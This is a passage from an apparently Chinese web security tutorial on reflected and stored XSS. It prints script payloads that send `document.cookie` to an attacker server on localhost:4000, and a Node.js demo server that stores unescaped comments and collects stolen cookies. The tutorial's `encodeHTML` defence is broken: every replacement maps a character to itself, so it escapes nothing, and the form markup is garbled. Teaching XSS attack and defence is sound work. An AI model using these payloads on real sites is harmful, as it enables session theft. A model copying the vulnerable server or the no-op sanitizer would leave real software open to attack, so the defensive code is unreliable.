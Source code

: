 运行上面的代码，然后打开访问下面的恶意链接：

```
http://localhost:3000/movies?q=功夫熊猫<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 被发送到了攻击者的服务器。

### 防御方案

造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，例如直接用 `encodeURIComponent` 对查询参数进行过滤：

```
const tpl = req.query.q  ? `<h3>「${encodeURIComponent(req.query.q)}」的搜索结果为：</h3>${Array(30).fill('x')}`  : `请输入搜索的电影`
```

还有一种方式是写一个函数替换掉那些 `<`、`&` 等特殊字符：

```
function encodeHTML(str) {  return str  .replace(/&/g,'&')  .replace(/"/g,'"')  .replace(/'/g,''')  .replace(/</g,'<')  .replace(/>/g,'>')}
```

另外，如果后端登录验证是基于 Cookie 的话，一定要设置其属性为 HttpOnly，这样攻击者无法利用 JS 脚本获取到 Cookie 了。

存储型 XSS 攻防实战
------------

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

### 攻击案例

假如在某网站上有一篇爆款文章：

```
https://xxx.com/articles/1
```

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！下面是完整的 `Node.js` 服务端源码：

```
const http = require('http')const URL = require('url')const qs = require('querystring')// 模拟文章数据库const article = {  id: 1,  title: '体育新闻',  content:    '火箭在对阵雷霆首轮系列赛的第5场比赛中以114-80战胜对手，但在这场比赛中更受关注的还是丹尼斯-施罗德和PJ塔克之间的冲突导致两人都被驱逐，当然，在这场比赛之后火箭已经手握3-2的领先优势。',  comments: ['评论1', '评论2'],}// HTML 模板function renderHTML(tpl) {  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`}// 路由分发器const routes = {  'GET /articles/1': (req, res) => {    const tpl = `    <div style="width: 500px;margin: auto;">      <h1>${article.title}</h1>      <p>${article.content}</p>      <h3>评论区</h3>      <ul>${article.comments        .map((item) => '<li>' + item + '</li>')        .join('')}</ul>      <hr/>      <p>请发表您的评论：</p>      <form action="/comments" method="post">        <textarea lines="3" maxlength="1000" >提交</button>      </form>    </div>    `    res.setHeader('Set-Cookie', ['name=keliq', 'age=10'])    res.end(renderHTML(tpl))  },  'POST /comments': async (req, res) => {    let body = await getBody(req)    let { comment = '' } = qs.parse(body)    comment = comment.trim()    if (comment) { // 为防止内存溢出，只保留最新10条评论      article.comments = [comment, ...article.comments.slice(0, 9)]    }    res.writeHead(301, { Location: '/articles/1' })    res.end()  },  'GET /cookies': (req, res) => {    console.log(req.query)    res.end()  },  'GET /malicious.js': (req, res) => {    const script = `document.body.innerHTML = '美女荷棺在线發牌<img width=200 src="http://img.zlib.cn/beauty/1.jpg" />'`    res.end(script)  },}// 获取 req.bodyfunction getBody(req) {  return new Promise((resolve, reject) => {    const arr = []    req      .on('data', (data) => arr.push(data))      .on('end', () =>resolve(decodeURIComponent(Buffer.concat(arr).toString())))      .on('error', reject)  })}function onRequest(req, res) {  const { url, method } = req  const { query, pathname } = URL.parse(url, true) // 解析 url  Object.assign(req, { query, path: pathname }) // 并把 query 和 pathname 参数扩展到 req 对象  const route = routes[[method, pathname].join(' ')] // 获取路由处理函数（策略模式）  if (route) return route(req, res)  res.statusCode = 404  res.end('Not Found')}http.createServer(onRequest).listen(3000) // 被攻击的网站http.createServer(onRequest).listen(4000) // 攻击者收集cookie的服务器
```